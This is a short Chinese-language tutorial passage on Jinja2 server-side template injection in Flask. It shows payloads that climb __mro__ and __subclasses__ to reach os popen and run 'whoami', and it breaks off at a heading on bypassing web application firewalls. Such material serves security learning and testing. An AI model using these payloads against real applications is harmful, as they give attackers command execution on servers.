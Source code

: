 ```python
from flask import Flask, render_template
from jinja2 import Template

app = Flask(__name__)


@app.route('/')
def main():
    return render_template('index.html', title='My Page', heading='Welcome to My Page', items=['Apple', 'Banana', 'Orange'])


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=50000)
```

设置变量

```jinja2
{% set a = 'Apple' %}
{{ a }}
```

利用方式

由于模板语法对 Python 语句是有一定程度支持的，所以可以这样利用：

```python
@app.route('/demo1/')
def demo1():
    payload = Template('''
        {% for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_wrap_close" %}
            {% set wi1 = i.__init__.__globals__['popen']('whoami').read() %} 
            {{wi1}}
        {% endfor %}
    ''').render()
    return payload
```

但并不是完全支持 Python 所有的语法，所以很多语法是无法使用的，比如列表推导式

```python
try:
    print(Template('''
        {{ [i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_wrap_close"][0].__init__.__globals__['system']('whoami') }}
        ''').render())
except Exception:
    print(traceback.format_exc())
```

会报错：`jinja2.exceptions.TemplateSyntaxError: expected token ',', got 'for'`

### waf绕过
